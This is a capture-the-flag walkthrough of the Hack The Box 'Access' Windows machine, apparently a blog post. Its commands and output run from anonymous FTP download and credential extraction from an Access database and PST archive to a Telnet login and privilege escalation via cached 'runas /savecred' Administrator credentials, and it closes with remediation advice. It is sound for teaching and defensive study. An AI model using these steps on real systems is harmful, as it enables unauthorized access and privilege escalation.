

## HTB Access — Full Walkthrough & Writeup

**Access** is an easy-difficulty Windows machine on Hack The Box that highlights how legacy protocols (FTP, Telnet) and stored credentials can lead to full system compromise. The attack path starts with anonymous FTP access to download an Access database and a password-protected zip file. Extracting credentials from the database allows us to read a PST email archive, revealing a password to gain a Telnet shell. From there, we abuse cached administrator credentials in the Windows Credential Manager to elevate to SYSTEM.

---

## Machine Information

| Property             | Value                                  |
| -------------------- | -------------------------------------- |
| **OS**               | Windows Server 2008 R2 Standard        |
| **Difficulty**       | Easy                                   |
| **Domain/Workgroup** | WORKGROUP                              |
| **IP Address**       | `10.129.243.223`                       |
| **Foothold Account** | `security`                             |

---

## Attack Chain Overview

The following diagram illustrates the complete attack path from anonymous access to full system compromise:



---

## Reconnaissance

### Port scanning
I'll start by running an Nmap service and version scan with the default scripts. This will help identify any open ports and provide information about the services running on them, giving us valuable targets for further exploration.
> Always save the Nmap output in a text file for future reference. This practice is invaluable, as repeatedly running Nmap can be time-consuming and unnecessary.
{: .prompt-tip }

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ nmap -sC -sV -p- -Pn  --min-rate 10000 -oA nmap_report 10.129.243.223
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 23:11 IST
Nmap scan report for 10.129.243.223
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.40 seconds
```
Revewing the `Nmap` report, we are able to find 3 interesting ports that we can try to get our foothold-

|Interesting Port | Service | Version |
|-----------------|---------|---------|
|21/tcp           |ftp      |Microsoft ftpd |
|23/tcp             |telnet | NA    |
|80/tcp         | http | Microsoft-IIS/7.5

### FTP Anonymous Access

Anonymous login is allowed on the target.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ ftp ftp://anonymous:''@10.129.243.223:21
Connected to 10.129.243.223.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
200 Type set to I.
ftp> 
```
Inside the FTP, there were 2 folders found-
1. Backups
2. Engineer

Inside the Backups folder, we are able to find an access database file called **backup.mdb** and inside the `Engineer` folder, there is a `zip` file called **Access Control.zip**.

We are going to download both of these files locally to our attacker machine foro further analysis.

```shell
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************|  5520 KiB  857.28 KiB/s    00:00 ETA
226 Transfer complete.
5652480 bytes received in 00:06 (857.27 KiB/s)
```

```shell
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************| 10870       33.14 KiB/s    00:00 ETA
226 Transfer complete.
10870 bytes received in 00:00 (33.09 KiB/s)
```

The zip file is password protected and we do not know the password yet, so we will start with the `backup.mdb` file, and for that, we need `mdbtools` installed on our attacker machine. 

```shell
sudo apt install mdbtools
```

> A `.mdb` file is a Microsoft Access database file that was the default file format for Access versions up to 2003. MDB stands for Microsoft Database. 
{: .prompt-info}

There are lots of tables inside the databases, and not everything looks interesting, so we are going to narrow down our focus to user tables.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ mdb-tables -1  backup.mdb |grep user   
auth_user
auth_user_groups
auth_user_user_permissions
userinfo_attarea
```

Out of all, `auth_user` looks the most interesting. Maybe it stores the user authentication information.

Exporting the data using `mdb-export`, we found the credentials for 4 users.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ mdb-export backup.mdb auth_user 
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

Using the password for `engineer`, which is `access4u@security`, I was able to extract the zip file, and there was only 1 file found inside called `Access Control.pst`.

> A PST file, or Personal Storage Table file, is a proprietary file format used by Microsoft to store items like emails, contacts, and calendar events: 
{: .prompt-info}

To ead the emails inside of the `.pst` file, there are lots of options, but we are goign to go with a lighweight solution. `readpst` seems to be the best one. Let's install it.

```shell
sudo apt install readpst
```
We are able to find 2 email.

```shell
──(frodo㉿kali)-[~/hack-the-box/access]
└─$ readpst Access\ Control.pst   
Opening PST file and indexes...
Processing Folder "Deleted Items"
	"Access Control" - 2 items done, 0 items skipped.
```

Let's look at the email 

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ cat Access\ Control.mbox 
From "john@megacorp.com" Fri Aug 24 05:14:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
	boundary="--boundary-LibPST-iamunique-1651771506_-_-"


----boundary-LibPST-iamunique-1651771506_-_-
Content-Type: multipart/alternative;
	boundary="alt---boundary-LibPST-iamunique-1651771506_-_-"

--alt---boundary-LibPST-iamunique-1651771506_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John
```

It looks like password for one of the accounts called `security` was changed to `4Cc3ssC0ntr0ller`.


## Telnet

Let's `telnet` to the target machine with the `security` credentials and try to get a shell.

```shell       
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ telnet 10.129.243.223
Trying 10.129.243.223...
Connected to 10.129.243.223.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>cd Desktop

C:\Users\security\Desktop>type user.txt
c82f427b80a0f0ad1fb46932d1531b45
```

## Privilege Escalation

### Enumerating Saved Credentials
Once we have a shell as `security`, we can query the Windows Credential Manager to check if there are any cached credentials stored on the system. The built-in command `cmdkey /list` displays stored credentials.

```cmd
C:\Users\security> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
    Saved using smartcard
```

!!! note "Credential Manager Caching"
    When administrators configure automatic logins or use the `/savecred` flag with `runas`, Windows stores their credentials in the Windows Credential Manager. If the `/savecred` flag was used previously, any user can run commands using those stored credentials without needing to know the plaintext password.

### Runas Abuse
Since credentials for `ACCESS\Administrator` are saved, we can abuse the `/savecred` flag to execute commands under the security context of the `Administrator` account.

We will execute `cmd.exe` to run a command that copies the root flag to a readable directory:

```cmd
C:\Users\security> runas /user:ACCESS\Administrator /savecred "cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"
```

After executing the command, we wait a moment for the process to run, then check the contents of our home directory:

```cmd
C:\Users\security> type C:\Users\security\root.txt
7a64119d...
```

The machine has been successfully compromised!

---

## Lessons Learned

### 1. Cleartext Credentials in Backup Files
The initial foothold was gained because an Access database backup (`backup.mdb`) and a PST email archive were left exposed on an anonymous FTP server:
- **Remediation**: FTP services should not permit anonymous write or read access to sensitive directories. Backup files containing credential databases or communication history (PST) should be stored in secure, access-controlled offline storage.

### 2. Insecure Storage of Administrative Credentials
Windows Credential Manager was configured to save administrative credentials (`/savecred`):
- **Remediation**: Disable the storage of domain credentials for `runas`. Group Policies can be implemented to prevent local caching of credentials via administrative accounts. Ensure that policies such as "Network access: Do not allow storage of passwords and credentials for network authentication" are enabled.
